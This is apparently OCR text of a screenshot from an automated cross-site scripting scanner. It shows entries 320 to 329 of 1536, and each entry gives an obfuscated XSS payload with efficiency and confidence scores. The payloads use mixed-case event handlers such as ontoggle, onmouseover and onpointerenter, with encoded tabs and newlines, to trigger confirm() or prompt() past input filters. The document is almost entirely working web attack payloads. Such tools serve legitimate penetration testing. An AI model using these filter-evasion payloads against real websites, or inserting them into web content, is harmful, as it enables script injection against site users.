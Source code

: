 ------------------------------------------------------------
 Payload: <DEtAILs/+/onToggLE%09=%09confirm()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 320/1536
 
------------------------------------------------------------
 Payload: <d3v/+/ONmOuseOVer%09=%09confirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 321/1536
 
------------------------------------------------------------
 Payload: <DetAIlS%0dONpOiNTERENTER+=+confirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 322/1536
 
------------------------------------------------------------
 Payload: <D3v%0dOnmOuSEOvER%09=%09[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 323/1536
 
------------------------------------------------------------
 Payload: <D3V%0dOnmOuseoVeR%0d=%0d(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 324/1536
 
------------------------------------------------------------
 Payload: <A%0dONMOuSEoVer%09=%09(confirm)()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 325/1536
 
------------------------------------------------------------
 Payload: <d3V%0dONpOintEREnTeR%0a=%0a(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 326/1536
 
------------------------------------------------------------
 Payload: <a%0donmoUseOVEr%0a=%0aa=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 327/1536
 
 Progress: 328/1536
 
------------------------------------------------------------
 Payload: <deTaIls%09onpOiNterentER%0a=%0aa=prompt,a()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 329/1536
 